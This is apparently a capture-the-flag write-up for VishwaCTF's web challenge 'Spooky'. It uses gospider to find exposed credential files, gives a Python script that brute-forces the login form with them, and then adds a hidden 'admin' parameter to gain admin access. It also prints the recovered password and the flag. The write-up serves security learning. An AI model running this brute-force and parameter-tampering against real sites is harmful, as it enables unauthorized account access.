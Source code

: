 # **Writeup - VishwaCTF**

* Category **WEB** <!-- challenge category -->
* Name **Spooky** <!-- challenge name -->
* Difficulty **Medium**

## Description
The challenge show us a site, and the description report that a user forgot his login credentials. The scope of the challenge was to recover the forgotten credentials.

## **Solution**
Firstly looking at the web interface there weren't clues about what to do. So to retrieve more information there were two possibilities:
* Use dirb to see if there are some useful folders to retrieve information.
* Use gospider in order to try to retrieve sitemap.xml or robots.txt
[comment]: # (Hello)
So trying the second way by executing the command:
```shell
gospider -s https://ch39763117927.ch.eng.run/ --sitemap
```
from the sitemap.xml file we discover there are two interesting files inside creds folder, namely pass.txt and user.txt, containing list of user and password of the site. At this point in order to login we bruteforce for every user in users.txt all passwords in pass.txt. It is possible to do this from script using following code
```Python
import requests  
  
url = "https://ch39763117934.ch.eng.run/"  
user_res = requests.get(f"{url}/creds/users.txt")  
users = user_res.text.strip(' \n').split('\n')  
password_res = requests.get(f"{url}/creds/pass.txt")  
passwords = password_res.text.strip(' \n').split('\n')  
correct = tuple()  
  
for user in users:  
	for password in passwords:  
		res = requests.post(f"{url}/login.php", data={"user": user, "pass": password})  
		# log print  
		print(user, password)  
		if "Incorrect" not in res.text:  
			print(res.text)  
			correct = (user, password)  
			break  
	if "Incorrect" not in res.text:  
		break
```
At this point we are logged in as user shrekop, with password "VmU5gnXKYN2vLp48", but there's no flag on the page. After thinking about it, the first idea was insert an additional param ```admin='true'``` in the form in order maybe to become admin with the code lines:
```Python
res = requests.post("https://ch39763117927.ch.eng.run/login.php", data={"user": correct[0], "pass": correct[1], 'admin': 'true'})  
print(res.text)
```
This worked as the response was:
```html
<b>Logged in as </b> shrekop (admin)<script>alert('Congratulations. You got the flag!');</script><script>alert('VishwaCTF{h1dd3n_P@raMs}');</script>
```
